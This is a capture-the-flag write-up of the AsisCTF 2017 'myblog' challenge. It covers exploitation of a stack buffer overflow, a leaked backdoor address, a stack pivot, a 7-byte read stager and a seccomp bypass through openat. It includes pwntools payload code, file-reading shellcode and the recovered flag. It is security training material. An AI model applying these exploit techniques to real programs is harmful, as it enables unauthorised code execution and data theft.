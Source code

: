 ```yaml
---
title: "AsisCTF 2017 - Pwning - myblog"
description: "Classical Buffer overflow with Seccomp and Stack Pivot"
---
```


# myblog

The program offers a basic interface for managing post.
E.g. option 3 can be used to set the blog owner.
Any operation will result in an exit after completion.
```
1. Write a blog post
2. Delete a blog post
3. Show the blog owner
4. Exit
```

A first quick analysis reveals some interesting facts.
First of all, a memory section with rwx privileges is allocated, this could be interesting for storing shellcode.
Second, thr program uses seccomp, therefore some system calls might be disallowed.
```
[...]
mmap(0x656ca000, 8192, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0)
[...]
prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)  = 0
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, {len=11, filter=0x7ffefe130eb0}) = 0
[...]
```

# Backdoor
By reverse engineering, we found a hidden option with the id 31337.
This method will give us its own address and therefore can be used to compute the binary base.

```C
int backdoor() {
    puts(0x15d8);
    printf("I will give you a gift %p\n", backdoor);
```

In addition, a 16-byte stack-based buffer overflow is given, what allows us to control rip and rbp.
Sadly this is not enough to store a complete ROP chain.

```assembly
sub        rsp, 0x10
[...]
lea        rax, qword [rbp+8]
mov        edx, 0x18                                   ; argument "nbyte" for method j_read
mov        rsi, rax                                    ; argument "buf" for method j_read
mov        edi, 0x0                                    ; argument "fildes" for method j_read
mov        eax, 0x0
call       j_read
```

Additionally, a check is performed, if rip and rbp are pointing to the first 0xfff bytes of the binary.
This limit our usable targets, as we can not jump to any function using syscalls.
Even though, we can jump into the menu handler and call `delete_post`, `write_post` methods, so we can reuse them.


# Executing 7 bytes
An interesting function to use is the `show_owner` as it can be used to change the blog owner (7 Bytes), which is stored in the rwx section.
A pointer to this section is located in the .bss segment.
Therefore we approach the following stack layout for our buffer overflow and stack pivot:


```
.stack
+-----------------+
| new rbp         |
+-----------------+
| call_show_owner |
+-----------------+ <- rbp
| ...             |

.bss
+-----------------+
| rwx_ptr         |
+-----------------+
|                 |
+-----------------+ <- new rbp
```

The strategy would be:
1. call show owner
2. write 7 bytes of shellcode
3. return to menu handler
4. exit, jump to the rwx section



```python
call_show_owner =  blog_base_ptr + 0x10c2
rwx_ptr =  blog_base_ptr + 0x202048
payload = "AAAAAAAA"
payload += pwn.p64(rwx_ptr-8) #rbp
payload += pwn.p64(call_show_owner) #rip
r.send(payload)
```

# Executing arbitrary shell

As the maximum shellcode length is limited to 7 bytes, we need a way to read more shellcode.
As rax is already set to 0 (`sys_read`) we can try to directly write to the rwx memory section
The rdi register defines the maximum number of bytes to be read and is a random pointer, therefore this register needs no changes.
We only need to point rsi to the rwx section.
As rsp is already pointing below the rwx pointer in the .bss section we can use the following shellcode, what compiles to exactly 7 bytes.

```
shellcode = "sub rsp,8; pop rsi; syscall"
shellcode = pwn.asm(shellcode)
r.send(shellcode)
```

We send our shellcode with 7 bytes of padding, so it will be executed directly after the `read` system call returns.

# Seccomp

Even though we can execute arbitrary code, we are not finished yet as seccomp is used to blacklist some system calls.
`seccomp-tools` (https://github.com/david942j/seccomp-tools) can be used to disassemble these rules and show them in a human-readable format.

```
seccomp-tools dump ./myblog

 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x06 0x00 0x40000000  if (A >= 0x40000000) goto 0010
 0004: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0010
 0005: 0x15 0x04 0x00 0x0000003b  if (A == execve) goto 0010
 0006: 0x15 0x03 0x00 0x00000039  if (A == fork) goto 0010
 0007: 0x15 0x02 0x00 0x0000003a  if (A == vfork) goto 0010
 0008: 0x15 0x01 0x00 0x00000038  if (A == clone) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

Execve is blocked, therefore, we cannot execute `execve("/bin/sh", NULL, NULL)` directly.
Open is blocked, therefore we should not be able to open files and read the Flag.
Even though the `openat()` syscall is not blocked, what allows us to open a file relative to a directory.
This syscall requires the following arguments:

| Register | Description |
|----------|-------------|
| rdi | Directory file Descriptor (will be ignored for an absolute path) |
| rsi | Filename |
| rdx | Flags |
| r10 | Mode |

Therefore we can use the following shellcode to open a file, read 1024 bytes and write it to stdout.

```assembly
    jmp str;
ret:
    pop rsi;
    xor rdi, rdi;
    xor rdx, rdx;
    xor r10, r10;
    mov eax, 257;
    syscall

    mov rdi, rax;
    mov rsi, rsp;
    mov rdx, 1024;
    mov eax, 0;
    syscall;

    mov rdi, 1;
    mov eax, 1;
    syscall;

    mov eax, 60;
    syscall

str:
    call    ret
    .string "the filename goes here"
```

And finally recover the flag: ASIS{526eb5559eea12d1e965fe497b4abb0a308f2086}

# Files
- [Exploit](exploit.py)
- [Binary](myblog)
- [Hopper file](myblog.hop)
